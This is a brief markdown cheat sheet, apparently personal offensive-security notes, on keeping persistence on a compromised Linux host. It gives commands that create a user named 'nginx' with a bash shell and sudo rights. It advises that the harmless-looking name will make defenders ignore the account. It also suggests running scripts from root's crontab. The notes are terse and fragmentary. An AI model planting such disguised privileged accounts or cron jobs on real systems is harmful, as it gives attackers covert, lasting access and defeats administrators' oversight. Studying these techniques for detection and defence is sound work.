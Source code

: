 # Persistence

many ways.

---

## User creation

```bash
useradd --shell /bin/bash --home /var/www nginx
sudo usermod -aG sudo nginx
```

use some known user, like nginx for example, it's not sus, so ppl would think it is normal and leave it.

---

## Crontabs

Crontab some scipts with root.

---
